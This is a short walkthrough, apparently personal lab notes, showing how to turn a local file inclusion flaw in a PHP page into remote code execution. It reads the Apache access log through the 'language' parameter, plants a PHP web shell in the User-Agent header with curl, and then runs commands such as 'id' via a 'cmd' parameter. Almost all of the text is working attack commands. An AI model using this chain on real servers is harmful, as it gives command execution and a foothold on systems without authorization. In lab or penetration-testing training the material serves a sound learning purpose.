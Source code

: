 Able to read logs via LFI:

```bash
index.php?language=/var/log/apache2/access.log
```

Update User-Agent with the following, either using Burp or Curl:

```bash
User-Agent: <?php system($_GET['cmd']); ?>
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

Visit logs again

```bash
/index.php?language=/var/log/apache2/access.log&cmd=id
```

Output can be seen in the log:

![[Pasted image 20250124134617.png]]



